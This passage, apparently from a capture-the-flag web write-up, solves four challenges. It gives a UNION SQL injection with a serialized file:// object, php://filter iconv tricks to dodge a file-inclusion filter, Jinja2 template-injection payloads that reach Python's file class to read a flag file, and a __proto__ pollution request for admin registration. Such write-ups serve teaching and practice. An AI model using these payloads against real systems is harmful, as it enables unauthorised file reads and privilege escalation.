?no=2 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:4:"user";s:3:"age";i:20;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'#
```



Decoding likewise gives the flag.



## Challenge-name - File Inclusion

A very simple file inclusion. Entering the page gives the following source:

```php
<?php
highlight_file(__FILE__);
    include("./check.php");
    if(isset($_GET['filename'])){
        $filename  = $_GET['filename'];
        include($filename);
    }
?>
```

Scanning with dirsearch turns up `flag.php`.

```text
[22:11:34] Scanning:
[22:11:39] 403 -   296B - /.php
[22:11:39] 403 -   297B - /.php3
[22:11:45] 200 -     0B - /check.php
[22:11:47] 200 -     0B - /flag.php
[22:11:48] 200 -    1KB - /index.php
[22:11:48] 200 -    1KB - /index.php/login/
[22:11:52] 403 -   305B - /server-status
[22:11:52] 403 -   306B - /server-status/

Task Completed
```

`?filename=flag.php` directly echoes `you have use the right usage , but error method`.

Trying the PHP wrapper `?filename=php://filter/read=convert.base64-encode/resource=flag.php` echoes `do not hack!` — blocked.

> ### Common filters
>
> PHP has many built-in filters that can be combined.
>
> #### 1. String Filters
>
> These filters perform basic string transformations directly, and are very useful for bypassing simple keyword detection or obfuscating content.
>
> - **`string.rot13`**: ROT13-encodes the content.
>   - *Scenario*: bypassing a simple regex match on keywords like `<?php`.
> - **`string.toupper` / `string.tolower`**: converts all characters to upper- or lowercase.
> - **`string.strip_tags`**: strips HTML and PHP tags.
>   - *Note*: this is a legacy filter; availability depends on the PHP version. It should not be assumed to exist in a current PHP environment.
>
> ------
>
> #### 2. Conversion Filters
>
> This is the most core category in CTF, mainly used to convert invisible characters or code logic into readable text.
>
> - **`convert.base64-encode` / `convert.base64-decode`**
>   - *Use*: reading PHP source. Reading a `.php` file directly gets parsed by the server, whereas Base64-encoding it echoes back the encoded string.
> - **`convert.quoted-printable-encode`**: similar to Base64, converts content into printable characters.
>
> ------
>
> #### 3. Iconv Filters
>
> Filters in the `convert.iconv.<from>.<to>` format are extremely powerful; they can convert one character set into another.
>
> - **Common combinations**: `convert.iconv.UTF-8.UTF-16` or `convert.iconv.UCS-2.UCS-4`.
> - **Deeper principles**:
>   1. **Bypassing WAFs**: changing the character encoding can turn an otherwise-blocked keyword (such as `system`) into a valid character stream after encoding.
>   2. **Filter chain attacks (Filter Chains)**: by stacking dozens of `iconv` filters, you can use encoding overflow or misalignment to precisely "construct" arbitrary characters (such as `<?php eval(...)`) at the end of the file.
>
> ------
>
> #### 4. Compression Filters
>
> Used when handling large files or specific formats.
>
> - **`zlib.deflate` / `zlib.inflate`**: compress/decompress using the zlib algorithm.
> - **`bzip2.compress` / `bzip2.decompress`**: using the bzip2 algorithm.

Testing revealed that `string`, `base64`, and `read` are all filtered, but `convert` isn't, so let me try the encoding-conversion filters.

Trying `?filename=php://filter/convert.iconv.utf-8.utf-32/resource=flag.php` echoes `you have use the right filter , but error usage`, indicating the correct filter and the wrong usage — so with the filter pinned down, just brute-force the encoding combinations.

[PHP: Supported Character Encodings - Manual](https://www.php.net/manual/zh/mbstring.supported-encodings.php)

```text
UCS-4*
UCS-4BE
UCS-4LE*
UCS-2
UCS-2BE
UCS-2LE
UTF-32*
UTF-32BE*
UTF-32LE*
UTF-16*
UTF-16BE*
UTF-16LE*
UTF-7
UTF7-IMAP
UTF-8*
ASCII*
EUC-JP*
SJIS*
eucJP-win*
SJIS-win*
ISO-2022-JP
ISO-2022-JP-MS
CP932
CP51932
SJIS-mac
SJIS-Mobile#DOCOMO
SJIS-Mobile#KDDI
SJIS-Mobile#SOFTBANK
UTF-8-Mobile#DOCOMO
UTF-8-Mobile#KDDI-A
UTF-8-Mobile#KDDI-B
UTF-8-Mobile#SOFTBANK
ISO-2022-JP-MOBILE#KDDI
JIS
JIS-ms
CP50220
CP50220raw
CP50221
CP50222
ISO-8859-1*
ISO-8859-2*
ISO-8859-3*
ISO-8859-4*
ISO-8859-5*
ISO-8859-6*
ISO-8859-7*
ISO-8859-8*
ISO-8859-9*
ISO-8859-10*
ISO-8859-13*
ISO-8859-14*
ISO-8859-15*
ISO-8859-16*
byte2be
byte2le
byte4be
byte4le
BASE64
HTML-ENTITIES
7bit
8bit
EUC-CN*
CP936
GB18030
HZ
EUC-TW*
CP950
BIG-5*
EUC-KR*
UHC
ISO-2022-KR
Windows-1251
Windows-1252
CP866
KOI8-R*
KOI8-U*
ArmSCII-8
```



## Confusion1

Entering the page, the home page shows an elephant wrapped up by a snake — probably Python and PHP.





The top bar has login and register pages you can enter, but both show not found; the source hints at the flag's location.



But the not-found error here echoes the URL `/login.php` verbatim.

```text
Not Found
The requested URL /login.php was not found on this server.

Apache/2.4.10 (Debian) Server at 61.147.171.103 Port 53160
```

Combined with the hints about Python and PHP, let me try SSTI template injection.



It echoes 49, so I tried some payloads and found that `|`, `class`, and `read` are filtered inside the curly braces, and `globals` and `base` are filtered in the URL. So `attr` can't be used; only `mro` and the square-brackets-plus-`request` approach can be used to find a usable class.

```text
{{()[request.args.a][request.args.b]}}?a=__class__&b=__mro__
```

Found the URL `/(<type 'tuple'>, <type 'object'>)`; use the object class.

```text
{{()[request.args.a][request.args.b][1][request.args.c]()}}?a=__class__&b=__mro__&c=__subclasses__
```

Found that the file object at index 40 can read the flag directly.

```text
0, <type 'type'>
1, <type 'weakref'>
2, <type 'weakcallableproxy'>
3, <type 'weakproxy'>
4, <type 'int'>
5, <type 'basestring'>
6, <type 'bytearray'>
7, <type 'list'>
8, <type 'NoneType'>
9, <type 'NotImplementedType'>
10, <type 'traceback'>
11, <type 'super'>
12, <type 'xrange'>
13, <type 'dict'>
14, <type 'set'>
15, <type 'slice'>
16, <type 'staticmethod'>
17, <type 'complex'>
18, <type 'float'>
19, <type 'buffer'>
20, <type 'long'>
21, <type 'frozenset'>
22, <type 'property'>
23, <type 'memoryview'>
24, <type 'tuple'>
25, <type 'enumerate'>
26, <type 'reversed'>
27, <type 'code'>
28, <type 'frame'>
29, <type 'builtin_function_or_method'>
30, <type 'instancemethod'>
31, <type 'function'>
32, <type 'classobj'>
33, <type 'dictproxy'>
34, <type 'generator'>
35, <type 'getset_descriptor'>
36, <type 'wrapper_descriptor'>
37, <type 'instance'>
38, <type 'ellipsis'>
39, <type 'member_descriptor'>
40, <type 'file'>
41, <type 'PyCapsule'>
42, <type 'cell'>
43, <type 'callable-iterator'>
44, <type 'iterator'>
45, <type 'sys.long_info'>
46, <type 'sys.float_info'>
47, <type 'EncodingMap'>
48, <type 'fieldnameiterator'>
49, <type 'formatteriterator'>
50, <type 'sys.version_info'>
51, <type 'sys.flags'>
52, <type 'exceptions.BaseException'>
53, <type 'module'>
54, <type 'imp.NullImporter'>
55, <type 'zipimport.zipimporter'>
56, <type 'posix.stat_result'>
57, <type 'posix.statvfs_result'>
58, <class 'warnings.WarningMessage'>
59, <class 'warnings.catch_warnings'>
60, <class '_weakrefset._IterationGuard'>
61, <class '_weakrefset.WeakSet'>
62, <class '_abcoll.Hashable'>
63, <type 'classmethod'>
64, <class '_abcoll.Iterable'>
65, <class '_abcoll.Sized'>
66, <class '_abcoll.Container'>
67, <class '_abcoll.Callable'>
68, <type 'dict_keys'>
69, <type 'dict_items'>
70, <type 'dict_values'>
71, <class 'site._Printer'>
72, <class 'site._Helper'>
73, <type '_sre.SRE_Pattern'>
74, <type '_sre.SRE_Match'>
75, <type '_sre.SRE_Scanner'>
76, <class 'site.Quitter'>
77, <class 'codecs.IncrementalEncoder'>
78, <class 'codecs.IncrementalDecoder'>
79, <type 'operator.itemgetter'>
80, <type 'operator.attrgetter'>
81, <type 'operator.methodcaller'>
82, <type 'functools.partial'>
83, <type 'itertools.combinations'>
84, <type 'itertools.combinations_with_replacement'>
85, <type 'itertools.cycle'>
86, <type 'itertools.dropwhile'>
87, <type 'itertools.takewhile'>
88, <type 'itertools.islice'>
89, <type 'itertools.starmap'>
90, <type 'itertools.imap'>
91, <type 'itertools.chain'>
92, <type 'itertools.compress'>
93, <type 'itertools.ifilter'>
94, <type 'itertools.ifilterfalse'>
95, <type 'itertools.count'>
96, <type 'itertools.izip'>
97, <type 'itertools.izip_longest'>
98, <type 'itertools.permutations'>
99, <type 'itertools.product'>
100, <type 'itertools.repeat'>
101, <type 'itertools.groupby'>
102, <type 'itertools.tee_dataobject'>
103, <type 'itertools.tee'>
104, <type 'itertools._grouper'>
105, <type 'cStringIO.StringO'>
106, <type 'cStringIO.StringI'>
107, <class 'string.Template'>
108, <class 'string.Formatter'>
109, <type 'collections.deque'>
110, <type 'deque_iterator'>
111, <type 'deque_reverse_iterator'>
112, <type '_thread._localdummy'>
113, <type 'thread._local'>
114, <type 'thread.lock'>
115, <type 'datetime.date'>
116, <type 'datetime.timedelta'>
117, <type 'datetime.time'>
118, <type 'datetime.tzinfo'>
119, <class 'werkzeug._internal._Missing'>
120, <class 'werkzeug._internal._DictAccessorProperty'>
121, <type 'time.struct_time'>
122, <class 'email.LazyImporter'>
123, <type 'Struct'>
124, <type '_hashlib.HASH'>
125, <type '_random.Random'>
126, <type '_ssl._SSLContext'>
127, <type '_ssl._SSLSocket'>
128, <class 'socket._closedsocket'>
129, <type '_socket.socket'>
130, <type 'method_descriptor'>
131, <class 'socket._socketobject'>
132, <class 'socket._fileobject'>
133, <class 'urlparse.ResultMixin'>
134, <class 'contextlib.GeneratorContextManager'>
135, <class 'contextlib.closing'>
136, <class 'calendar.Calendar'>
137, <type '_io._IOBase'>
138, <type '_io.IncrementalNewlineDecoder'>
139, <class 'werkzeug.datastructures.ImmutableListMixin'>
140, <class 'werkzeug.datastructures.ImmutableDictMixin'>
141, <class 'werkzeug.datastructures.UpdateDictMixin'>
142, <class 'werkzeug.datastructures.ViewItems'>
143, <class 'werkzeug.datastructures._omd_bucket'>
144, <class 'werkzeug.datastructures.Headers'>
145, <class 'werkzeug.datastructures.ImmutableHeadersMixin'>
146, <class 'werkzeug.datastructures.IfRange'>
147, <class 'werkzeug.datastructures.Range'>
148, <class 'werkzeug.datastructures.ContentRange'>
149, <class 'werkzeug.datastructures.FileStorage'>
150, <class 'werkzeug.urls.Href'>
151, <class 'werkzeug.wsgi.ProxyMiddleware'>
152, <class 'werkzeug.wsgi.SharedDataMiddleware'>
153, <class 'werkzeug.wsgi.DispatcherMiddleware'>
154, <class 'werkzeug.wsgi.ClosingIterator'>
155, <class 'werkzeug.wsgi.FileWrapper'>
156, <class 'werkzeug.wsgi._RangeWrapper'>
157, <class 'werkzeug.formparser.FormDataParser'>
158, <class 'werkzeug.formparser.MultiPartParser'>
159, <class 'werkzeug.utils.HTMLBuilder'>
160, <class 'werkzeug.wrappers.BaseRequest'>
161, <class 'werkzeug.wrappers.BaseResponse'>
162, <class 'werkzeug.wrappers.AcceptMixin'>
163, <class 'werkzeug.wrappers.ETagRequestMixin'>
164, <class 'werkzeug.wrappers.UserAgentMixin'>
165, <class 'werkzeug.wrappers.AuthorizationMixin'>
166, <class 'werkzeug.wrappers.StreamOnlyMixin'>
167, <class 'werkzeug.wrappers.ETagResponseMixin'>
168, <class 'werkzeug.wrappers.ResponseStream'>
169, <class 'werkzeug.wrappers.ResponseStreamMixin'>
170, <class 'werkzeug.wrappers.CommonRequestDescriptorsMixin'>
171, <class 'werkzeug.wrappers.CommonResponseDescriptorsMixin'>
172, <class 'werkzeug.wrappers.WWWAuthenticateMixin'>
173, <class 'werkzeug.exceptions.Aborter'>
174, <type '_json.Scanner'>
175, <type '_json.Encoder'>
176, <class 'json.decoder.JSONDecoder'>
177, <class 'json.encoder.JSONEncoder'>
178, <class 'threading._Verbose'>
179, <type 'cPickle.Unpickler'>
180, <type 'cPickle.Pickler'>
181, <class 'jinja2.utils.MissingType'>
182, <class 'jinja2.utils.LRUCache'>
183, <class 'jinja2.utils.Cycler'>
184, <class 'jinja2.utils.Joiner'>
185, <class 'jinja2.utils.Namespace'>
186, <class 'markupsafe._MarkupEscapeHelper'>
187, <class 'jinja2.nodes.EvalContext'>
188, <class 'jinja2.runtime.TemplateReference'>
189, <class 'jinja2.nodes.Node'>
190, <class 'numbers.Number'>
191, <class 'jinja2.runtime.Context'>
192, <class 'jinja2.runtime.BlockReference'>
193, <class 'jinja2.runtime.LoopContextBase'>
194, <class 'jinja2.runtime.LoopContextIterator'>
195, <class 'jinja2.runtime.Macro'>
196, <class 'jinja2.runtime.Undefined'>
197, <class 'decimal.Decimal'>
198, <class 'decimal._ContextManager'>
199, <class 'decimal.Context'>
200, <class 'decimal._WorkRep'>
201, <class 'decimal._Log10Memoize'>
202, <type '_ast.AST'>
203, <class 'jinja2.lexer.Failure'>
204, <class 'jinja2.lexer.TokenStreamIterator'>
205, <class 'jinja2.lexer.TokenStream'>
206, <class 'jinja2.lexer.Lexer'>
207, <class 'jinja2.parser.Parser'>
208, <class 'jinja2.visitor.NodeVisitor'>
209, <class 'jinja2.idtracking.Symbols'>
210, <class 'jinja2.compiler.MacroRef'>
211, <class 'jinja2.compiler.Frame'>
212, <class 'jinja2.environment.Environment'>
213, <class 'jinja2.environment.Template'>
214, <class 'jinja2.environment.TemplateModule'>
215, <class 'jinja2.environment.TemplateExpression'>
216, <class 'jinja2.environment.TemplateStream'>
217, <class 'jinja2.loaders.BaseLoader'>
218, <class 'jinja2.bccache.Bucket'>
219, <class 'jinja2.bccache.BytecodeCache'>
220, <class 'difflib.HtmlDiff'>
221, <class 'uuid.UUID'>
222, <type 'CArgObject'>
223, <type '_ctypes.CThunkObject'>
224, <type '_ctypes._CData'>
225, <type '_ctypes.CField'>
226, <type '_ctypes.DictRemover'>
227, <class 'ctypes.CDLL'>
228, <class 'ctypes.LibraryLoader'>
229, <type 'select.epoll'>
230, <class 'subprocess.Popen'>
231, <class 'werkzeug.routing.RuleFactory'>
232, <class 'werkzeug.routing.RuleTemplate'>
233, <class 'werkzeug.routing.BaseConverter'>
234, <class 'werkzeug.routing.Map'>
235, <class 'werkzeug.routing.MapAdapter'>
236, <class 'ast.NodeVisitor'>
237, <class 'click._compat._FixupStream'>
238, <class 'click._compat._AtomicFile'>
239, <class 'click.utils.LazyFile'>
240, <class 'click.utils.KeepOpenFile'>
241, <class 'click.utils.PacifyFlushWrapper'>
242, <class 'click.types.ParamType'>
243, <class 'click.parser.Option'>
244, <class 'click.parser.Argument'>
245, <class 'click.parser.ParsingState'>
246, <class 'click.parser.OptionParser'>
247, <class 'click.formatting.HelpFormatter'>
248, <class 'click.core.Context'>
249, <class 'click.core.BaseCommand'>
250, <class 'click.core.Parameter'>
251, <class 'werkzeug.local.Local'>
252, <class 'werkzeug.local.LocalStack'>
253, <class 'werkzeug.local.LocalManager'>
254, <class 'werkzeug.local.LocalProxy'>
255, <class 'flask.signals.Namespace'>
256, <class 'flask.signals._FakeSignal'>
257, <class 'flask.helpers.locked_cached_property'>
258, <class 'flask.helpers._PackageBoundObject'>
259, <class 'flask.cli.DispatchingApp'>
260, <class 'flask.cli.ScriptInfo'>
261, <class 'itsdangerous._CompactJSON'>
262, <class 'itsdangerous.SigningAlgorithm'>
263, <class 'itsdangerous.Signer'>
264, <class 'itsdangerous.Serializer'>
265, <class 'itsdangerous.URLSafeSerializerMixin'>
266, <class 'flask.config.ConfigAttribute'>
267, <class 'flask.ctx._AppCtxGlobals'>
268, <class 'flask.ctx.AppContext'>
269, <class 'flask.ctx.RequestContext'>
270, <class 'logging.LogRecord'>
271, <class 'logging.Formatter'>
272, <class 'logging.BufferingFormatter'>
273, <class 'logging.Filter'>
274, <class 'logging.Filterer'>
275, <class 'logging.PlaceHolder'>
276, <class 'logging.Manager'>
277, <class 'logging.LoggerAdapter'>
278, <class 'flask.json.tag.JSONTag'>
279, <class 'flask.json.tag.TaggedJSONSerializer'>
280, <class 'flask.sessions.SessionInterface'>
281, <class 'flask.wrappers.JSONMixin'>
282, <class 'flask.blueprints.BlueprintSetupState'>
283, <class 'werkzeug.serving.WSGIRequestHandler'>
284, <class 'jinja2.ext.Extension'>
285, <class 'jinja2.ext._CommentFinder'>
286, <class 'werkzeug.serving._SSLContext'>
287, <class 'werkzeug.serving.BaseWSGIServer'>
288, <class 'jinja2.debug.TracebackFrameProxy'>
289, <class 'jinja2.debug.ProcessedTraceback'>
290, <type 'method-wrapper'>
```

```text
{{()[request.args.a][request.args.b][1][request.args.c]()[40]('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')[request.args.d]()}}?a=__class__&b=__mro__&c=__subclasses__&d=read
```

Got the flag.

```text
Not Found
The requested URL /cyberpeace{6d4078cde0a0143264513672256ffd9d} was not found on this server.

Apache/2.4.10 (Debian) Server at 61.147.171.103 Port 53160
```

## wife_wife

Entering the page is a login/registration interface. On the registration side you can check "is admin", but checking it requires providing an invite code; if you don't check it and then register and log in, it shows `CatCTF{no_fl4g_4_u_6ut_you_h@ve_w1fe}`, indicating that you must log in as admin to get the flag. The challenge description says this challenge doesn't require brute force, and I learned online that here you should use JavaScript prototype pollution.

[Basics of Node.js prototype pollution attacks](https://blog.lxscloud.top/2022/11/13/nodejs原型链污染基础知识/)

[JavaScript prototype pollution](https://drun1baby.top/2022/12/29/JavaScript-原型链污染/#0x01-前言)

> ### The core principle: what is the "prototype chain"?
>
> Many ordinary JavaScript objects inherit from `Object.prototype`. A property added there can affect objects that inherit it and do not shadow it with an own property; null-prototype objects are one exception.
>
> #### 1. The key property: `__proto__`
>
> The actual prototype link is the internal `[[Prototype]]` slot. `__proto__` is a legacy accessor usually inherited from `Object.prototype`, not a hidden own property of every object.
>
> ```javascript
> let user = { name: "Alice" };
> console.log(user.admin); // undefined
> 
> // 如果我们修改了原型
> user.__proto__.admin = true;
> 
> let guest = {};
> console.log(guest.admin); // true！所有对象都被污染了
> ```
>
> #### 2. How does it happen?
>
> The vulnerability usually appears in **object merge (Merge)** or **path assignment (Path Assignment)** scenarios. If a program doesn't filter sensitive keys like `__proto__` or `constructor` when processing user-supplied JSON data, an attacker may be able to modify an object's prototype through untrusted property names.
>
> ------
>
> ### Attack scenario example
>
> Suppose the backend has a common "deep merge" function (such as for handling config files):
>
> ```javascript
> function merge(target, source) {
>     for (let key in source) {
>         if (key in target && key in source) {
>             merge(target[key], source[key]);
>         } else {
>             target[key] = source[key];
>         }
>     }
> }
> ```
>
> #### The payload (Payload)
>
> The attacker sends the following malicious JSON:
>
> ```json
> {
>   "__proto__": {
>     "isAdmin": true
>   }
> }
> ```
>
> #### The consequence
>
> After `merge({}, payload)` runs, objects inheriting from the polluted prototype can now resolve `isAdmin` to `true`, unless they have their own property with that name. If the code has a permission check like `if (user.isAdmin)`, the attacker has achieved **privilege escalation**.

So here I captured the request during registration; the original body was:

```json
{
  "username": "admin",
  "password": "123",
  "isAdmin": true,
  "inviteCode": "123"
}
```

which shows:

```json
{
  "msg": "invalid invite code",
  "err": true
}
```

But by using JS prototype pollution, instead of providing the `isAdmin` property directly, we provide the `__proto__` property directly, for example:

```json
{
  "username": "admin",
  "password": "123",
  "__proto__": {
    "isAdmin": true
  }
}
```

This way, no matter how the check on `isAdmin` and `inviteCode` finally turns out, it doesn't matter, because `Object.prototype` has been injected with `isAdmin: true`, and so we can register an admin account successfully, and finally log in to get the flag.
